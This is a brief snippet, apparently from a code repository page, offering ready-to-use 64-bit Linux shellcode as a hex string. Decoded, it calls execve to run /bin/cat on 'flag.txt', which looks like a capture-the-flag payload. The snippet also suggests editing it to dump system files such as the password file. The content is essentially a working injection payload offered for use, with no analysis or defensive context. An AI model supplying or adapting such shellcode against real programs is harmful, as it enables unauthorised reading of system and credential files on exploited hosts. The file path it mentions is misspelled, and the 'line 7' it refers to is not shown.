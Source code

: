 ###  64 bit shellcode with execve syscall and /bin/cat binary
Ready shellcode looks like this:
`4831c05048b8666c61672e747874504889e14831c05048b82f62696e2f636174504889e74831c05051574889e6b03b0f05`

Edit line 7 to display something like /etc/password or another...
